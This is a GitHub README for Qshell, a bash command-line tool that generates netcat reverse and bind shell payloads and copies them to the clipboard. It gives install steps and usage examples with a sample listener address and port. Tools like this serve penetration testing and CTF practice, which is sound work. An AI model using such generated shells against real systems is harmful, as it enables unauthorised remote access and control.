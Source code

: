 # Quick Shell
---
## About
---
` Qshell is a cammand line tool that provides you with the payload you want to gain a reverse/bind shell quickly and copy it directlly to your clipboard`

---
## Installation 
Required Dependencies : **xclip** 
```bash
  sudo apt-get install xclip
```

```bash
  sudo git clone https://github.com/F33-Z/Quick_Shell
  cd Quick_Shell
  chmod +x Qshell.sh
  ./Qshell.sh --help
```
---
## Help
to list the help menu
```bash
  Qshell --help
  Qshell -h
```

![help](img/help.png?raw=true) 

---

## List Shells
to list all reverse/bind shells
```bash
  Qshell --list
  Qshell -l
```

![list](img/list.png?raw=true) 

---

## Usage

### 1. reverse shell
* you need to provide your IP address and port number

```bash
  Qshell nc --lhost 10.10.10.10 --lport 9999
  Qshell nc -L 10.10.10.10 -P 9999
```
* to copy the payload to your clipboard 
```bash
  Qshell nc --lhost 10.10.10.10 --lport 9999 --clipboard
  Qshell nc -L 10.10.10.10 -P 9999 -c
```
* to change type of shell from **bash** to **sh** or **zsh**
```bash
  Qshell nc --lhost 10.10.10.10 --lport 9999 --clipboard --type sh
  Qshell nc -L 10.10.10.10 -P 9999 -c -t sh
```
### 2. bind shell
* you need to provide a port number

```bash
  Qshell nc --lport 9999 --bind
  Qshell nc -P 9999 -b
```
* to copy the payload to your clipboard 
```bash
  Qshell nc --lport 9999 --bind --clipboard 
  Qshell nc -P 9999 -b -c
```
* to change type of shell from **bash** to **sh** or **zsh**
```bash
  Qshell nc --lport 9999 --bind --clipboard --type sh
  Qshell nc -P 9999 -b -c -t sh
```

### PS : move the script Qshell.sh to a path in your PATH variable to make it easier and faster to run it from anywhere

```bash
  echo $PATH
  mv Qshell.sh /pathIn/yourPATHvariable
```
